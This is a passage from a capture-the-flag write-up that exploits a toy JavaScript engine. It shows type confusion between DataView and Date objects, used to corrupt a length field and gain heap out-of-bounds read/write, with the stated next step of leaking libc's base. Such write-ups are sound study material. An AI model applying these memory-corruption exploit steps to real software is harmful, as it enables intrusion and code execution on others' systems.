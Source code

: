 ```
[object Date]
TypeError: undefined is not callable
        at tconf.js:10
```
Hmm, type confusion worked but we can't call setTime? I was confused by this for some time but then I realized prototype of js object is set when it is first created so when we change type the prototype still stays the same. For those who don't know what prototype is it's basically what defines which methods exists on object.

So this is where my understanding of **cursed** js's `this` helped me: 
We can still call `setTime` using js's `bind`:
```js
Date.prototype.setTime.bind(c)(12)
```
And it works!
```js
b = DataView(0x68);
a = DataView(0x48);
b = DataView(0x48);
c = DataView(0x48);


print(c)
b.setUint8(0x48+8, 10); // set type of c to Date
print(c)
Date.prototype.setTime.bind(c)(1.09522e+12)

b.setUint8(0x48+8, 16); // type of c back to DataView
print(c.getLength())
```
Viola:
```
[object DataView]
[object Date]
1587544064
```
Now you might think overwriting `u.number` which is `double` and is 8 bytes would overwrite `u.dataview.data`'s first 4 bytes since `u.dataview.length` is 4 bytes. But padding saved us here so `data` pointer is unaffected as well. 

### Using heap OOB r/w for code execution

So this part is mostly exploring heap and finding out what object lie on it. But I can also control stuff on it as well. So I allocated two DataView's, _after_ `c` which I can find offsets to. [We know](https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/heap_overview/) that allocating more than 128kb using `malloc` causes it to be `mmap`'d and knowing the address of that chunk leaks libc's base.

Let's try:
```js
b = DataView(0x68);
a = DataView(0x48);
b = DataView(0x48);
c = DataView(0x48);
e = DataView(0x48);
f = DataView(0x1000 * 0x1000);

print(c)
b.setUint8(0x48+8, 10); // set c type to Date
print(c)
Date.prototype.setTime.bind(c)(1.09522e+12) // write random big number to u.number/u.length
b.setUint8(0x48+8, 16); // set c type back to DataView
print(c)
print(c.getLength())


```